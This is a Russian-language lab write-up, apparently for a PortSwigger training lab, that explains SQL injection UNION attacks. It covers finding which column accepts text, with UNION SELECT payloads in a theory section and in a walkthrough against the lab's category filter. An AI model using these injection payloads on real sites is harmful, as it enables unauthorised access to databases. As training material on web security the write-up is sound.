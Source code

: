 # SQL injection UNION attack, finding a column containing text

## Theory

<h3>Поиск столбцов с полезным типом данных в атаке UNION</h3>

Причина выполнения атаки UNION с внедрением SQL-кода заключается в том, чтобы иметь возможность получить результаты из внедренного запроса. Как правило, интересные данные, которые мы хотим получить, будут в форме строки, поэтому нужно найти один или несколько столбцов в исходных результатах запроса, тип данных которых является или совместим со строковыми данными.

Уже определив количество необходимых столбцов, можно протестировать каждый столбец, чтобы проверить, может ли он содержать строковые данные, отправив серию полезных данных UNION SELECT, которые помещают строковое значение в каждый столбец по очереди.

Например, если запрос возвращает четыре столбца, нужно отправить:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text/assets/1.png)

Выбираем пункт Lifestyle. Запрос:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text/assets/2.png)

Чтобы определить количество столбцов, будем подставлять NULL значения. Выясняем, что их 3.
```
/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL--
```
![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text/assets/3.png)

Проверяем, может ли столбец содержать строковые данные. Выясняем, что второй столбец может их содерать.
```
/filter?category=Lifestyle'+UNION+SELECT+NULL,'a',NULL--
```
![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text/assets/4.png)

Подставляем значение, нужное для решения задачи.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text/assets/5.png)


![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text/assets/6.png)
